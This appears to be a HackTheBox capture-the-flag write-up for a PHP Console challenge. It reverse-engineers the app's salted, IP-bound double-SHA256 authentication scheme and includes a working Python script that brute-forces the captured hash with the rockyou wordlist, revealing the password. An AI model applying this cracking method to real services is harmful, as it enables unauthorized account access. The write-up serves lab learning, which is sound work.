 # Console

Completed: Yes
Platform: HackTheBox

I opened the main page of URL in firefox and got the message to make sure that I have PHP console in order to be prompted for a password. I didn't understand it at the beginning, but after some time, I got it and found this tool: [https://github.com/barbushin/php-console](https://github.com/barbushin/php-console). It is a chrome extension. Install it, but only with `Load unpacked`. And you will be prompted for a password. Try to send some passwords and check the network panel. You will find this:

```bash
PHP-Console: {"protocol":5,"auth":{"publicKey":"6db23b5c4654088d9d2ebee9bceea4182649c1a635931d5b0934886d95b8f9bb","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
```

Okay, we have a hash. And also, we have a source code, don't forget to view it. Particularly, check Auth.php, where you can find the algorithm of cashing. The algorithm is next:

1. We have salt.
2. This salt is concatenated with a password and it's calculated as sha256.
3. The resulting hash from the previous step is then concatenated with the IP address of the server and again calculated as sha256.

Well, we got the algorithm, we got the resulting hash, let's just brute force it.

```bash
import hashlib

def get_content(filename):
    return open(filename, 'rb').read().split(b'\n')[0]

my_hash = get_content('hash')
salt = get_content('salt')
my_ip = get_content('host_ip')
wordlist = open('/usr/share/wordlists/rockyou.txt', 'rb').read().split(b'\n')
for word in wordlist:
    new_hash = word + salt
    first_hash = hashlib.sha256(new_hash).hexdigest().encode()
    second_hash = my_ip + first_hash
    third_hash = hashlib.sha256(second_hash).hexdigest().encode()
    #print(third_hash, my_hash)
    if third_hash == my_hash:
        print('Password: ', word.decode())
        break 
```

The password is `poohbear`. Use it and get the flag.
